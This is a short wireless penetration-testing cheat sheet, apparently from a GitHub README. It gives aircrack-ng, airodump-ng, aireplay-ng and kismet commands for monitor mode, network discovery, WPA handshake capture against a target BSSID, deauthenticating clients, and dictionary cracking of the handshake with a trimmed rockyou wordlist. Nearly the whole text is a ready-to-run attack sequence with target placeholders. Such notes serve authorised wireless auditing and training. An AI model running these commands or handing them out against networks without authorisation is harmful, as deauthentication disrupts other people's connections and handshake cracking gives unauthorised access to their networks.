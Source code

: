 
### WiFi Security
Check Wireless interface
```
$ iwconfig wlan0
$ airmon-ng check / check kill (check and kill interfering processes with monitor interface)
```
Set up monitor mode interface on wlan0
```
$ airmon-ng start wlan0
or
$ airmon-ng stop wlan0mon
```
Check packet injection and link quality
```
$ aireplay-ng -9 wlan0mon
```
Discover wireless networks
```
$ kismet -c mon0
or
$ airodump-ng mon0
$ airodump-ng -c 11 -a mon0 (+lock to channel)
```
WPA Capture
```
Airodump-ng --bssid <TargetNetworkBSSID> -c <channel> -w handshake (outputfile)  wlan0mon (interface)
``` 
Deauth client from BSSID network
```
Aireplay-ng -0 0 -a <TargetNetworkBSSID> -c ClientMAC wlan0mon
```
Dictionary Attack vs WPA handshake - WPA keys are between 8 and 63 characters
Optimize wordlist for WPA/WPA2 testing
```
$ pw-inspector -i rockyou.txt -o optimized.txt -m 8 -M 63
then
$ aircrack-ng -w optimized.txt ../handshake/handshake.cap
```
